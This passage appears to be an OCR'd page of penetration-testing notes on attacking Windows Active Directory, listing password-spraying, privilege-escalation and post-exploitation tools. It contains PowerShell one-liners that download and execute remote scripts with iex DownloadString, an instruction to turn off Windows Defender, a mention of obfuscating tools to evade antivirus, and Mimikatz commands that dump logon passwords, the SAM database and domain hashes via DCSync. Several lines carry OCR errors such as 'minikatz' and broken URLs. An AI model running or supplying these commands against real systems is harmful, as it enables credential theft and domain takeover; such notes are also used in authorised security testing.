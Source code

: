 ### Tools for Password Spraying

- DomainPasswordSpray (https://github.com/dafthack/DomainPasswordSpray)

  ```powershell
  # On Windows
  iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/ DomainPasswordSpray.ps1') -outfile DomainPasswordSpray.ps1
  Import-Module .\DomainPasswordSpray.ps1
  Invoke-DomainPasswordSpray -Password "password"
  ```

- O365Spray (https://github.com/0xZDH/o365spray) - Out of Scope
- WinPwn (https://github.com/S3cur3Th1sSh1t/WinPwn)

  ```powershell
  # Run as Administrator
  # Turn off Windows Defender
  iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/Offline_WinPwn. ps1')
  # Run WinPwn
  winpwn
  # 3 (Domain Recon)
  # 21 (Check username=password combinations!)
  ```

- TeamsFiltration (https://github.com/Flangvik/TeamFiltration)

### Local Privilege Escalation Tools

- ProtectMyTooling - Obfuscate and protect your tools from being detected by AV

- Juicy: https://github.com/ohpe/juicy-potato
- Sweet: https://github.com/CCob/SweetPotato
- Rogue: https://github.com/antonioCoco/RoguePotato
- GodPotato: https://github.com/BeichenDream/GodPotato

## 08. Active Directory Post-Exploitation

### Tools for Active Directory Post-Exploitation

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation
https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/

- winPEAS (https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- DCSync
- Mimikatz

  ```powershell
  minikatz
  privilege::debug
  sekurlsa::logonpasswords
  # Perform DCSync
  lsadump::dcsync /domain:<FQDN> /user:username
  # Dump SAM database
  lsadump::sam
  ```
